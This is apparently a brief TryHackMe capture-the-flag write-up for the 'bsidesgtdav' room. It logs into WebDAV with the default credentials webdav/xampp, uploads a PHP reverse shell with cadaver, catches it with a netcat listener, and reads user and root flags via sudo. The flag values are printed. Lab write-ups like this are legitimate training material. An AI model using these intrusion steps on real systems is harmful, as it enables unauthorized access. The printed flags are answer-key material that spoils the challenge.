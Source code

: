 # bsidesgtdav
Tryhackme (bsidesgtdav) Write Up

webdav default login

http://10.10.135.159/webdav

Username: webdav
Password: xampp


Using (*cadaver*)

put reverse-shell.php

http://10.10.135.159/webdav/reverse-shell.php

nc -lvnp 1234


![image](https://user-images.githubusercontent.com/80600420/147095168-66d56a92-9f49-49f8-9ddd-fbb13fbbdfcf.png)

/home/merlin
$ cat user.txt
```
449b40fe93f78a938523b7e4dcd66d2a
```
sudo -l 

![image](https://user-images.githubusercontent.com/80600420/147095353-32624d5f-1498-47ca-a022-5b5d8e1e5cc7.png)

sudo cat /root/root.txt

```
101101ddc16b0cdf65ba0b8a7af7afa5
```
